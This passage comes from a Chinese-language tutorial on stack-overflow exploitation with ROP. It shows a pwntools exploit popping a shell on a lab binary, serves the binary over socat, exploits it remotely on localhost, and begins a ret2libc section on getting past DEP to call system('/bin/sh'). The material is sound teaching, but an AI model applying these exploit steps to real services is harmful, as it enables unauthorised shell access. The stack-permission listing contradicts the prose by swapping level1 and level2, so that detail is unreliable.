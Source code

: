 ```
p.interactive()  #开启交互shell

```

执行exp：

```
$ python exp1.py 
[+] Started program './level1'
[*] Switching to interactive mode
$ whoami
mzheng

```

接下来我们把这个目标程序作为一个服务绑定到服务器的某个端口上，这里我们可以使用socat这个工具来完成，命令如下：

```
socat TCP4-LISTEN:10001,fork EXEC:./level1

```

随后这个程序的IO就被重定向到10001这个端口上了，并且可以使用 nc 127.0.0.1 10001来访问我们的目标程序服务了。

因为现在目标程序是跑在socat的环境中，exp脚本除了要把p = process('./level1')换成p = remote('127.0.0.1',10001) 之外，ret的地址还会发生改变。解决方法还是采用生成core dump的方案，然后用gdb调试core文件获取返回地址。然后我们就可以使用exp进行远程溢出啦！

```
python exp1.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ id
uid=1000(mzheng) gid=1000(mzheng) groups=1000(mzheng),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)

```

0x02 Ret2libc – Bypass DEP 通过ret2libc绕过DEP防护
=====

现在我们把DEP打开，依然关闭stack protector和ASLR。编译方法如下：

```
gcc -fno-stack-protector -o level2 level2.c

```

这时候我们如果使用level1的exp来进行测试的话，系统会拒绝执行我们的shellcode。如果你通过`sudo cat /proc/[pid]/maps`查看，你会发现level1的stack是rwx的，但是level2的stack却是rw的。

```
level1:   bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]
level2:   bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]

```

那么如何执行shellcode呢？我们知道level2调用了libc.so，并且libc.so里保存了大量可利用的函数，我们如果可以让程序执行`system(“/bin/sh”)`的话，也可以获取到shell。既然思路有了，那么接下来的问题就是如何得到system()这个函数的地址以及”/bin/sh”这个字符串的地址。
